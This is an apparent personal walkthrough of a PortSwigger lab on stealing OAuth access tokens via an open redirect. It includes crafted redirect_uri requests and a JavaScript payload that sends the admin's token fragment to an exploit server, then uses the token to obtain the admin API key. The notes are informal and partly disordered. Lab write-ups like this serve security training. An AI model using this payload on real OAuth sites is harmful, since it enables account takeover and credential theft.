

# Stealing OAuth access tokens via an open redirect

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

## To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

#### Note

##### You cannot access the admin's API key by simply logging in to their account on the client application.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in via your own social media account using the following credentials: `wiener:peter`.

---

step 1


step 2

logout and login again and see HTTP history


step 3
send step 2 to repeater
change uri with google.com


step 4
in uri section test with /../post?/postId=8
it give 302 response


step 5
Note in this lab if you logout and login again you don't need to enter user-id and password
it will automatically login

now logout and click on my account and intercept process until you reach at redirect_uri


step 6

add /../

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post?postId=8&response_type=token&nonce=-2006832369&scope=openid%20profile%20email HTTP/2
```


you will redirect to post 8



this is complete url

```http
https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/post?postId=8#access_token=pDuxx3Zrg65Yue-6vKm6ShYqwSSLiVdm-_1Y7ZnTnH-&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

step 7

in the post in the bottom section there is next button


click on next

it will redirect to next post
earlier it was 8 not it is 9


step 8

go to HTTP history again find next url


step 8
send step 7 to repeater and path= https://google.com

```
GET /post/next?path=https://google.com HTTP/2
```

you will get 302 response


step 9
now click on my account
intercept request keep forward until you reach redirect_uri

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://google.com&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```


---

step 10

now exploit it
add payload to exploit

```javascript
<script>window.location = '/?'+document.location.hash.substr(1)</script>
```


and in uri section add `/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit`

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/..&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit&response_type=token&nonce=599160809&scope=openid%20profile%20email
```


it will redirect to exploit url


copy url from browser for access_token

```
https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/?access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

or
click on access log for token


```
access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_
```

---

step 11
go to HTTP history click on me you will see api-key of user


now send to the repeater use token key `M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_` from **\_\_\_\_**

step 10


---

step 12

payload HInt

### Hint:

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```

change with your credential

```
outhid: oauth-0a29002603866278807a2f7b02c70094.oauth-server.net
labid: 0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net
exploitid: exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/
```

final payload

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-0a29002603866278807a2f7b02c70094.oauth-server.net/auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```


---

step 13
go to my account intercept again till uri

add and forward request

```
/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit
```


you will redirect to exploit page go to access log see if any different ip which contain access token


copy token and paste to repeater at /me in authorization section


```json
{
  "sub": "administrator",
  "apikey": "8D2JdRgR7VEp54s32CHR60k1Z3VK5IYy",
  "name": "Administrator",
  "email": "administrator@normal-user.net",
  "email_verified": true
}
```

---

step 14
submit api-key to solve lab


